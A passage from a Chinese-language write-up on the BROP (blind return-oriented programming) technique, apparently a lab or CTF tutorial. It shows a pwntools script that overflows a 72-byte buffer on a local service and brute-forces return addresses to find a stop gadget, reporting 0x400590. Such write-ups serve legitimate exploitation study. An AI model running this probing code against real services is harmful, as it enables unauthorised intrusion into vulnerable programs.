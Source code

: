 当我们主函数执行时，程序输出`"WelCome my friend,Do you know password?"`保持连接等待输入，我们可以把它来当作stop gadget。下面我们来寻找。

```python
# -*- coding:utf-8 -*-
from __future__ import print_function
from pwn import *

context.log_level = "DEBUG"

def get_stop_gadget(buf_size,start_addr=0x400000):
    stop_gadget = start_addr
    while 1:
        stop_gadget+=1
        payload = 'a'*buf_size + p64(stop_gadget)
        try:
            p = remote("127.0.0.1",9999)
            p.recvline("password?")
            p.sendline(payload)
            checkstr = p.recvline(timeout=0.5)
            p.close()
            log.info("find one stop gadget: 0x%x",stop_gadget)
            if "WelCome" in checkstr:
                log.info("start address: 0x%x",stop_gadget)
                return stop_gadget
        except EOFError:
            p.close()
            log.info("not 0x%x,try harder",stop_gadget)
if __name__ == "__main__":
    buf_size = 72
    stop_gadget = get_stop_gadget(buf_size)
```

![image-20220802185706227](BROP%E6%8A%80%E6%9C%AF%E7%A0%94%E7%A9%B6.assets/image-20220802185706227.png)

我们找到了能够进入主函数的地址0x400590，实际上来看这里是_start函数
